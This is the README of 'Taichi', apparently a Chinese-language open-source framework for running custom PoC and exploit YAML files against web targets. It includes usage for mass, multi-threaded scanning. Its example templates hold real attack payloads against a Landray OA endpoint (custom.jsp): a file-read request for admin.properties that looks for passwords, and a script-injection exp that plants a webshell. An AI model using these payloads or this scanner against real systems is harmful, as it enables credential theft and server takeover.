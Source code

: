 # Taichi

持续更新中

## 历史更新

2023.3.24

新增识别exp，poc功能

新增扫描多个poc功能

适配[CVE-2023-28432](https://mp.weixin.qq.com/s/vpI3C575BxSPzHNi_oF60w)

## 前言

之前写了几个poc，感觉代码有很多相似的地方，所以我寻思能不能写个大体框架，这样以后就不用改来改去了。当然，我也知道有nuclei这样成熟好用的工具，但是我还是想试试，所以就搞了一个这个。（大佬勿喷）

目前才搞了几天，测试的数量也不多，算是个雏形，所以会有很多bug，请见谅。如有bug或者建议欢迎联系我

## 介绍

可以自定义poc或者exp的扫描框架

## poc.yaml格式

```
#种类：poc对应的是scan.py
- type:
  - type: "poc"

#请求方式
- method:
  - method: "post"

#payload
- payload:
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
  
#response包里的关键字
- word:
  - word:
      - "password"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"
```

例子中的payload

```
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
```

可以随意变换为request包里的内容，例如:

```
  - a: 'aaaaaaaaaaa'
```

如果像[(CVE-2023-28432)](https://mp.weixin.qq.com/s/vpI3C575BxSPzHNi_oF60w)这样的漏洞，没有payload，写成：

```
  - isNone : 'isNone'
```

## exp.yaml格式

```
#种类：exp对应的是attack.py
- type:
  - type: "exp"

#请求方式
- method:
  - method: "post"

#payload
- payload:
  - s_bean: 'ruleFormulaValidate&script=u0067\u0020\u003d\u0020\u0074'

#response包里的关键字
- word:
  - word:
      - "ok"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"

#attack中 验证 是否攻击成功的 请求方式
- method-V:
  - method: "get"

#webshell位置
- verify:
  - verify : "/login_listyes.jsp"

```

同理，payload内容也是可以变的

### 注意：yaml文件中参数的位置不可以改变

## 使用方法

```
python3 Taichi.py -h
usage: Taichi.py [-h] [-rh remote_host] [-f file_path] [-o outfile_path]
                 [-t thread_num] [-p poc_path] [-a all poc or exp]

Taichi by atk7r

options:
  -h, --help            show this help message and exit
  -rh remote_host, --rhost remote_host
                        Please input host to scan.
  -f file_path, --file file_path
                        Please input file path to scan.
  -o outfile_path, --outfile outfile_path
                        Please input path for output file.
  -t thread_num, --thread thread_num
                        Please input thread number.
  -p poc_path, --poc poc_path
                        Please input poc path to scan.
  -a all poc or exp, --all all poc or exp
                        Please input poc path to scan.
```

### 扫描单个目标

```
python3 Taichi.py -rh 123.123.123.123 -p poc.yaml
python3 Taichi.py -rh 123.123.123.123 -a /root/Taichi/pocs
```

### 扫描多个目标

```
python3 Taichi.py -f target.txt -p poc.yaml -o result.txt
python3 Taichi.py -f target.txt -a /root/Taichi/pocs -o result.txt
```

### 多线程扫描

```
python3 Taichi.py -f target.txt -p poc.yaml -o result.txt -t 5
python3 Taichi.py -f target.txt -a /root/Taichi/pocs -o result.txt -t 5
```

